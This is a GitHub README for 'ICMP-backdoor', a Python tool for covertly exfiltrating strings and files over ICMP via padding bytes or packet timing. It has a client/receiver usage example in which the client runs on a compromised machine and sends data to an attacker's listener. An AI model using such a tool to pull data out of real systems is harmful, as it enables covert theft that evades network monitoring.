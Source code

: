 
<div align="center">
<h1>ICMP-backdoor</h1>

Python-based tool to exfiltrate data through ICMP, supports multiple modes of operation and exfiltration
</div>

<div align="center">
<h2>Usage</h2>
</div>

The tool consists of two scripts, one to be executed from the compromised machine (`client.py`) and the other from the attacker's (`receiver.py`).
There are two methods of exfiltration:

* **Data-based**: exfils the information on the padding bytes of each ICMP packet.
* **Time-based**: the information is transmitted via the frquence of ICMP packets, each of which is a simple packet with no information.

More modes of operation will be researched and added soon.

<div align="center">
<h2></h2>
</div>

The data can be transfered in different ways:

* **Strings** (`-i` switch)
* **Files** (`-f` switch)
* **Shell** (to be implemented soon)

<div align="center">
<h2>Example usage</h2>
</div>

**Client**

```
==> python client.py -d 127.0.0.1 -i "Secret message"
[*] Destination of data: 127.0.0.1
[*] Sending encoded message: "Secret message"
[*] Message sent to 127.0.0.1
```

**Server**

```
==> python receiver.py -i lo
[*] Started listener on interface: lo
[*] Listening mode: 1
[*] Buf length   : 64
[*] Received data: "Secret message"
```


